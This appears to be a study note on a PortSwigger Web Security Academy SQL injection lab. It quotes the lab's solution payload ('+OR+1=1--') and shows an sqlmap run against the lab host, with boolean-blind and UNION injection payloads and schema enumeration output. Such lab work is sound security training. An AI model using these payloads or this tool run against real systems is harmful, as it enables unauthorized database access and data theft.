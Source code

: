 ## SQL injection

https://portswigger.net/web-security/sql-injection

https://portswigger.net/web-security/sql-injection/cheat-sheet



#### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> This lab contains an SQL injection vulnerability in the product category filter. When the user selects a  category, the application carries out an SQL query like the following:  `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
>
> To solve the lab, perform an SQL injection attack that  causes the application to display details of all products in any  category, both released and unreleased. 

<div class="component-solution is-expandable">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Use Burp Suite to intercept and modify the request that sets the product category filter.
                    </li>
                    <li>
                        Modify the <code>category</code> parameter, giving it the value <code>'+OR+1=1--</code>
                    </li>
                    <li>
                        Submit the request, and verify that the response now contains additional items.
                    </li>
                </ol>
            </div>
        </div>

exploit

```bash
# sqlmap -u 'https://ac031f4f1fa723cac0347af000d900ca.web-security-academy.net/filter?category=Pets' --dbs -v 3
---
Parameter: category (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: category=Pets' AND 8991=8991 AND 'bneO'='bneO
    Vector: AND [INFERENCE]

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: category=Pets' UNION ALL SELECT NULL,NULL,(CHR(113)||CHR(120)||CHR(98)||CHR(106)||CHR(113))||(CHR(76)||CHR(71)||CHR(112)||CHR(81)||CHR(109)||CHR(97)||CHR(71)||CHR(109)||CHR(90)||CHR(70)||CHR(104)||CHR(83)||CHR(115)||CHR(90)||CHR(86)||CHR(76)||CHR(80)||CHR(72)||CHR(106)||CHR(75)||CHR(116)||CHR(81)||CHR(119)||CHR(108)||CHR(67)||CHR(73)||CHR(78)||CHR(78)||CHR(86)||CHR(114)||CHR(109)||CHR(112)||CHR(77)||CHR(105)||CHR(97)||CHR(68)||CHR(112)||CHR(106)||CHR(74)||CHR(69))||(CHR(113)||CHR(120)||CHR(120)||CHR(118)||CHR(113)),NULL,NULL,NULL,NULL,NULL-- oruZ
    Vector:  UNION ALL SELECT NULL,NULL,[QUERY],NULL,NULL,NULL,NULL,NULL[GENERIC_SQL_COMMENT]
---

## --dbs
[00:44:58] [PAYLOAD] Pets' AND ASCII(SUBSTRING((COALESCE(CAST(CURRENT_SCHEMA() AS VARCHAR(10000))::text,(CHR(32))))::text FROM 7 FOR 1))>1 AND 'bHAs'='bHAs
[00:45:01] [INFO] retrieved: public

# --tables
[00:46:06] [INFO] retrieved: 1
```